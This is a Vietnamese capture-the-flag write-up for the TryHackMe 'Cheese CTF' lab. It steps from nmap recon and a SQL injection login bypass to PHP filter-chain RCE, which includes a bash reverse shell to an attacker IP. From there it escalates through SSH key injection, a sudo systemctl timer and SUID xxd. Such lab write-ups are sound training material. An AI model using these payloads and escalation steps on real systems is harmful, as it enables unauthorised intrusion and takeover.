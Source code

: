 # Cheese CTF – TryHackMe Write-up

## 1. Recon (Khám phá ban đầu)

* Sử dụng **nmap** để quét dịch vụ:

  ```bash
  nmap -sC -sV -Pn <target_ip>
  ```
* Kết quả: nhiều port trả về banner giả, nhưng **port 80** chạy web app thực sự (Cheese Shop).

---

## 2. SQL Injection – Bypass Login

* Trên web có form login. Thử các payload classic:

  ```sql
  ' OR '1'='1'-- -
  ```
* Thành công bypass và vào được **admin panel**.

---

## 3. LFI → RCE qua PHP Filter Chain

* Trong admin panel có `secret-script.php?file=` → có thể đọc file.
* Test:

  ```
  http://<ip>/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php
  ```
* Thấy được code PHP gốc → LFI confirmed.
* Tạo payload RCE bằng tool `php_filter_chain_generator.py`:

  ```bash
  python3 php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1\""); ?>'
  ```
* Lấy chuỗi payload và dùng trong URL → reverse shell về **nc listener**:

  ```bash
  nc -lvnp 4444
  ```
* Thu được shell `www-data`.

---

## 4. Từ www-data → user comte

* Check file writable:

  ```bash
  find /home/comte/.ssh/ -type f -writable
  ```
* Thấy `authorized_keys` writable → tạo key SSH:

  ```bash
  ssh-keygen -t rsa -f mykey
  cat mykey.pub >> /home/comte/.ssh/authorized_keys
  ssh -i mykey comte@<target_ip>
  ```
* Vào được user `comte`.

---

## 5. Privilege Escalation – comte → root

* Check sudo quyền:

  ```bash
  sudo -l
  ```
* Thấy có quyền chạy `systemctl` liên quan tới **exploit.timer**.
* Kiểm tra file unit `exploit.timer`, sửa `OnBootSec=` thành:

  ```ini
  OnBootSec=1s
  ```
* Reload và start timer:

  ```bash
  sudo systemctl daemon-reload
  sudo systemctl start exploit.timer
  ```
* Kết quả: `/opt/xxd` được tạo với SUID root.

---

## 6. Root bằng SUID `xxd`

* `xxd` là binary dump hex → có SUID root.
* Có thể dùng để đọc file root flag:

  ```bash
  /opt/xxd /root/root.txt | xxd -r
  ```
* Hoặc ghi SSH key vào `/root/.ssh/authorized_keys` để SSH root.

---

## 7. Tổng kết

### Khai thác chính:

1. **Recon (nmap)** → tìm web app.
2. **SQLi** → bypass login.
3. **LFI** → đọc source.
4. **PHP filter chain RCE** → shell www-data.
5. **SSH key injection** → user comte.
6. **Systemd timer exploit** → tạo SUID binary.
7. **SUID xxd abuse** → root flag.

### Tool dùng:

* `nmap`, `php_filter_chain_generator.py`, `nc`, `ssh-keygen`, `systemctl`, `xxd`

### Khái niệm học được:

* **SQLi**: chèn query để bypass/trích xuất DB.
* **LFI**: load file hệ thống.
* **RCE**: thực thi code từ xa.
* **Reverse shell**: kết nối shell ngược về attacker.
* **Privilege Escalation**: leo quyền.
* **SUID binary**: binary chạy với quyền owner (root).
* **Systemd timer abuse**: khai thác config để chạy code với root.

---

✅ Kết quả: Rooted thành công hệ thống!
